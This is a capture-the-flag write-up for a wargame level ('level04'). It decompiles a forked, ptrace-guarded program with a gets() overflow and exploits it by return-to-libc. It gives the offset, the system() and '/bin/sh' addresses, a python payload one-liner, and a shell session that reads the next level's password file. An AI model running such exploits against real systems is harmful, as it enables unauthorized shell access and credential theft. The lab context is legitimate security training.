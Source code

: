 ## level04 (ptracing / shellcode injection with limited function calls)
```clike!
int main()
{
    char child_input[136]; // 168 - 32
    int pid;
    inr wait_status;
    int ptrace_res;
    
    pid = fork();
    memset(child_input, 0, 32);
    ptrace_res = 0;
    wait_status = 0;
    if (pid == 0)
    {
        prctl(PR_SET_PDEATHSIG, SIGHUP);
        ptrace(PTRACE_TRACEME, 0, 0, 0);
        puts("Give me some shellcode, k");
        gets(child_input);
        return 0;
    }
    else
    {
        wait(&wait_status);
        if (WIFEXITED(wait_status) || WIFSIGNALED(wait_status))
        {
            puts("child is exiting");
            return 0;
        }
        if (ptrace(PTRACE_PEEKUSER, pid, 44, NULL) == 11)
        {
            puts("no exec() for you");
            kill(pid, 9);
            return 0;
        }
    }
}
```

On the surface, this looks like a buffer overflow vulnerability with a `gets()` call on a limited size buffer. The catch is, we are unable to call `exec()` in the child for the buffer overflow. Which means we have to use other functions like `system()`

First off, I located the EIP offset with the help of **[Buffer Overflow EIP Offset String generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)** To generate the string pattern and matching.

By setting **`set follow-fork-mode child`** in GDB, im able to trace through the fork and obtain the offset as `156`. Since we are using other functions, we have to find the addresses loaded in memory. which is the pointer to the `system()` function and the string `/bin/sh`. This can be acheived using `print system` and `find __libc_start_main,+99999999,"/bin/sh"` (find from libc main for 99999999 bytes "/bin/sh").

Our pointer to `system()` is `0xf7e6aed0`, our pointer to "/bin/sh" is `0xf7f897ec`.
![image](https://hackmd.io/_uploads/rJfxRy2Up.png)

Hence, we can generate our shellcode like so
```
python -c "print 'B' * 156 + '\xf7\xe6\xae\xd0'[::-1] + 'BEEF' + '\xf7\xf8\x97\xec'[::-1]" > /tmp/level04

 (cat /tmp/level04 ; cat) | ./level04
```

And we have our password `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`
```
level04@OverRide:~$  (cat /tmp/level04 ; cat) | ./level04
Give me some shellcode, k
pwd
/home/users/level04
whoami
level05
cat /home/users/level05
cat: /home/users/level05: Is a directory
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
